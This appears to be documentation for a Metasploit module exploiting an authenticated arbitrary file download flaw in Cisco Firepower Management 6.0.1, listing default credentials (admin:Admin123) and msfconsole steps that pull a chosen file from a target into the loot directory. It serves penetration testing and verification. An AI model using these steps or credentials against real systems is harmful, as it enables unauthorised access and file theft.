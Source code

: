 ## Vulnerable Application

This module exploits a vulnerability found in Cisco Firepower Management console. A logged in
user can abuse the report viewing feature to download an arbitrary file. Authentication is
required to exploit this vulnerability.

This module was written specifically against Cisco Firepower Management 6.0.1 (build 1213) during
development. To test, you may download the virtual appliance here:

https://software.cisco.com/download/release.html?mdfid=286259687&softwareid=286271056&release=6.0.1&flowid=54052

## Verification Steps

To use this module, first you need to know an username and password. The management console uses
admin:Admin123 by default:

1. Start msfconsole
2. ```use auxiliary/scanner/http/cisco_firepower_download```
3. ```set USERNAME [user]```
4. ```set PASSWORD [pass]```
5. ```set RHOSTS [IP]```
6. ```set FILEPATH [file to download]```
7. ```run```

If the file is found, it will be saved in the loot directory. If not found, the module should
print an error indicating so.

## Scenarios

![cisco_download_demo](https://cloud.githubusercontent.com/assets/1170914/21782825/78ada38e-d67a-11e6-9b7b-c7b8e2956fba.gif)
